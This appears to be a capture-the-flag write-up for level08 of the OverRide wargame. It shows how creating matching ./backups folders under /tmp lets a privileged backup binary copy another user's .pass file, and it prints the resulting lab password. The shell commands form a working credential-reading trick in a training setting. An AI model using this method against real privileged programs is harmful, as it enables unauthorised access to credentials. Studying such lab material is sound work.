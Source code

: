 After opening the binary in [dogbolt](dogbolt.org/) we can see that the program take a path in parameter and copy that file in a folder backup that has the same parent structure.
So if I want to copy `myfile`:
`/folder1/folder2/myfile`
There must be a folder `backups` containing `/folder1/folder2/` like:
`./backups/folder1/folder2/`
Where you are

Since we know that the binary has the permission to open `/home/users/level09/.pass`
We will try to copy the `.pass` file

```Shell
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Here we see that it doesn't work because the `/home/users/level0` folder are missing in the `./backups` folder.
So we will try to use the command in the `/tmp` directory so that we can create the `./backups/home/users/level0` folders.

```Shell
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
